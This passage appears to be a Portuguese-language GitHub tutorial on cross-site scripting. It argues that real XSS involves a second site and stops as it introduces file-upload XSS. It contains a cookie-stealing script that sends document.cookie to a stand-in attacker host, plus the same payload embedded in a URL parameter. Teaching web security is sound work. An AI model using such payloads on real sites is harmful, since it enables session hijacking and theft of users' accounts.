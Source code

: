 Quando o Atacante consegue injetar tags <script> em um site que não limpa a entrada, ele pode aproveitar dessa situação, explorando e fazendo um ataque a usuários com um único código de script rodando dentro do site vulnerável e interagindo ao mesmo tempo com o SITE DO HACKER, ou seja: CROSS-SITE SCRIPTING.

Percebeu?

Se você estudar sobre o XSRF/CSRF, XFS, XST, irá perceber que também carregam esta idéia de entre uma coisa e outra ao mesmo tempo.

Vejamos um exemplo, este aqui é até popular, famoso COOKIE STEALING / COOKIE HIJACKING:

<script>
var imag = new Image;
imag.src="https://sitedohacker.com/?cookie="+document.cookie;
</script>

Veja, ao injetar isso na url do site vulnerável:

https://sitevulneravel.com/?parametro=<script>var imag = new Image/ imag.src="https://sitedohacker.com/?cookie="+document.cookie;</script>

Observe com atenção:

Este script será CARREGADO E EXECUTADO dentro do SITE VULNERÁVEL, daí ele vai capturar os cookies DE DENTRO DO SITE VULNERÁVEL e mandar para um SITE TERCEIRO, neste caso o SITE DO HACKER, ou seja: CROSS-SITE SCRIPTING.

Peraí, então se essa é a idéia de CROSS-SITE SCRIPTING, então significa que <script>alert(1)</script> NÃO É XSS?

Exatamente!

Porque se parar para analisar o script <script>alert(1)</script> está interagindo apenas com UM ÚNICO SITE, neste caso o próprio SITE VULNERÁVEL.

Então isso podemos dizer que é SCRIPT INJECTION, porque ele só está interagindo com um site, não está carregando a idéia de "cross-site".

Mas, novamente, idéia acadêmica, se tem um script injection, normalmente vamos considerar "xss", até porque se você consegue injetar um script, o XSS se torna automaticamente possível, então podemos considerar este lado da moeda.


Mas agora, PARE E PENSE:


XSS É SOMENTE NA ENTRADA DO USUÁRIO EM LUGAR DE ESCREVER (caixinha de texto)????????



Resposta:


NÃO, não é.

Inclusive, aqui mesmo neste github eu vou deixar um exemplo de um site vulnerável que é por meio de UPLOAD DE ARQUIVOS.

Observe, já é um pouquinho diferente, dessa vez você vai infectar um arquivo e colocar javascript dentro dele para mandar para o site, você pode por exemplo executar Javascript em arquivos:
